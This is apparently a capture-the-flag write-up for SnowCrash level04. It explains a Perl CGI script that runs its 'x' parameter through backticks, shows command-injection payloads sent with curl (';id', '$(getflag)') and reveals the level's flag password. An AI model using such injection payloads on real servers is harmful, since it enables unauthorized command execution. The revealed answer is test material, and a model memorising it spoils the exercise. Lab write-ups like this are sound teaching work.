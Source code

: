 <h1>LEVEL04</h1>


<h4>GETTING STARTED</h4>

When `ls -la` we notice a .pl file. A `.pl` file typically refers to a script written in Perl. This is a CGI, which is a Perl module that allows Perl scripts to interact with web servers and handle HTTP requests and responses.

The script defines a subroutine x that takes a single argument. Inside this subroutine: `$y = $_[0];` assigns the first argument passed to the subroutine to the variable $y.
print `echo $y 2>&1`; uses backticks to execute the echo command with the contents of `$y` as its argument. The output of echo is then printed. `2>&1` redirects standard error (stderr) to standard output (stdout), so errors from the echo command are also printed.

`x(param("x"));` calls the `x` subroutine with the result of `param("x"`) as its argument. `param("x")` retrieves the value of the "x" parameter from the HTTP request's query string or post data. This means the script takes user input via the "x" parameter and directly passes it to a command execution context (backticks in Perl), which is a critical security issue.

This script is vulnerable to command injection attacks. Since it directly passes user-supplied data (param("x")) to the shell without any sanitization, an attacker could supply specially crafted input to execute arbitrary commands on the server. For example, if an attacker accessed `http://localhost:4747/level04.pl?x=;id`, the server would execute the id command, potentially revealing sensitive information about the server's users.

<h4>INJECTIONS</h4>

```
level04@SnowCrash:~$ strings ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
x(param("x"));
```


I dont have write permission so i cant change the file. It has an address and a port so its a script that is designed to execute as part of a web service, likely meant to interact with HTTP requests. For example : 

```
level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=test
test
```

`$(command)`: This syntax is used for command substitution in shell, which executes the command and substitutes its output. Since the Perl script uses backticks to execute the contents of the x parameter, including $(getflag) within the parameter might lead the server to execute the getflag command. 

`level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=$(getflag)` 

Make sure to include single quotes around otherwise the variable will expand before the curl gets executed resulting in running the script as the user level04 instead of flag04.

<details><summary> SOLUTION </summary>
  
* `su level05`

<p align="center">
👑 ne2searoevaevoem4ov4ar8ap 👑
</p>
                                           
</details>

